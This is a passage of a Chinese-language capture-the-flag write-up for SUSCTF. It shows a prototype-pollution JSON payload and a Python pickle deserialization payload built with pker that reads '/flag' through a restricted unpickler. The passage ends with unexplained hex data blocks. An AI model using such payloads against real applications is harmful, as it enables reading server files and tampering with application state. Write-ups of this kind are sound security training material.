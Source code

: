 因此构造json为

```json
{"a": 1, "__proto__": {"b": 2}}
```

POST到网址，拿到flag

![image-20201020121917884](https://timg.reito.fun/archive/typora-schwarzer/image-20201020121917884.png)

```
SUSCTF{a48e7854e99fa59ed4b843c4f5317826}
```

[web]z33's_pickle

也是没见过的东西，即便做完这题也还没明白python有这个东西的意义，首先访问网址获取网站源码，下面的代码去除了flask库。

```python
import base64
import pickle
import io
import sys 

def read(filename, encoding='utf-8'):  # It is really useful!
    with open(filename, 'r', encoding=encoding) as f:
        return f.read()

class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module == '__main__':
            return getattr(sys.modules['__main__'], name)
        raise pickle.UnpicklingError("'%s.%s' is forbidden" % (module, name))

base64_pickle_data = "Y3N5cwptb2R1bGVzCnAwCjA="
if len(base64_pickle_data) > 50:
    print("One inch long,one inch strong!")
pickle_data = base64.b64decode(base64_pickle_data)
result = RestrictedUnpickler(io.BytesIO(pickle_data)).load()
print(result)
```

可以看到题目`# It is really useful!`给出了强烈的提示，在网上搜索了一番关于pickle的资料，发现大多都是以各种方式绕过`find_class`的限制，拿到`system`函数对象，反而忽略了这个提示，因此这个题目只需要拿到`__main__`模块的`read`即可。

通过[pker](https://github.com/eddieivan01/pker)工具生成payload，我魔改了一下脚本，直接生成了base64。

```python
r = GLOBAL('__main__', 'read')
return r('/flag')
```

![image-20201020123020050](https://timg.reito.fun/archive/typora-schwarzer/image-20201020123020050.png)

POST到服务器，获取flag

![image-20201020123147451](https://timg.reito.fun/archive/typora-schwarzer/image-20201020123147451.png)


[0]:  000000000000000000000000aba596caeac381cd80d5cdaa098a82b999ead1d9
[1]:  000000000000000000000000c9219dd84a3210920addbead9d0099f4a8b27229
[2]:  00000000000000000000000000000000000000000000000000000000000f32a7
[0]:  0000000000000000000000000000000000000000000000000000000000000020
[1]:  0000000000000000000000000000000000000000000000000000000000000030
[2]:  6333567a5933526d4d6a41794d45426a65574a6c636e4e7759574e6c6332566a
[3]:  64584a7064486b75623235736157356c00000000000000000000000000000000